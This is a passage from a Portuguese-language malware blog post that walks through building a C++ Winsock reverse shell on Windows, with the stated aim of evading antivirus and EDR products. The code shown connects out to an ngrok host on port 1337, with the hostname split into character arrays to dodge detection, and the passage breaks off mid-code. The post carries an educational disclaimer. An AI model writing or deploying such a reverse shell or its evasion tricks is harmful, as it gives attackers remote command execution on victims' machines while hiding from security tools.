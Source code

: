 ```yaml
---
weight: 2
title: "Post II: Reverse Shell"
date: 2024-10-12T15:58:26+08:00
lastmod: 2024-10-12T15:58:26+08:00
draft: false
author: Vith0r
authorLink: https://github.com/Vith0r
description: Reverse Shell Simples.
images: 
resources:
  - name: featured-image
    src: Image.jpeg
tags:
  - Malware
categories:
  - Malware
lightgallery: true
toc:
  auto: false
---
```


Seja muito **bem-vindo(a)** ao meu **humilde blog**.

Neste post, vamos explorar a criação de um **Reverse Shell** simples, com o objetivo de contornar alguns **AVs/EDRs**. O objetivo deste post é focado em entender o funcionamento básico de uma **Reverse Shell**. Vamos utilizar a linguagem **C++** com a API **Winsock** para implementar a comunicação de rede e interagir com o processo do **cmd.exe** no Windows.

> [!warning] Warning
> As informações que você encontrar neste post, técnicas, códigos, provas de conceito ou qualquer outra coisa são estritamente para fins educacionais.

Nosso código utiliza **multithreading**, **pipes**, e **sockets** para interagir diretamente com o terminal remoto, permitindo o envio e recebimento de comandos. Ao longo do desenvolvimento, vamos detalhar cada parte do código e como ela se relaciona com a construção de um **Reverse Shell** funcional.
## Parte Principal: Configuração da Conexão de Rede
A parte principal do nosso código é responsável por estabelecer a comunicação entre o cliente **máquina atacante** e o servidor **máquina alvo**. Utilizamos o **Winsock** para criar e conectar um socket que será usado para enviar e receber dados.

```cpp
WSADATA wsaData;
SOCKET sock;
struct addrinfo hints = { 0 }, * result;

if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
    fprintf(stderr, "Falha na inicializacao do Winsock\n");
    return 1;
}

hints.ai_family = AF_INET;
hints.ai_socktype = SOCK_STREAM;
hints.ai_protocol = IPPROTO_TCP;

char NotNgrok[] = { '0', '.', 't', 'c', 'p', '.', 's', 'a', '.', 'n', 'g', 'r', 'o', 'k', '.', 'i', 'o', 0 };
char NotPort[] = { '1', '3', '3', '7', 0 };

if (getaddrinfo(NotNgrok, NotPort, &hints, &result) != 0) {
    fprintf(stderr, "Falha no endereço NGROK\n");
    WSACleanup();
```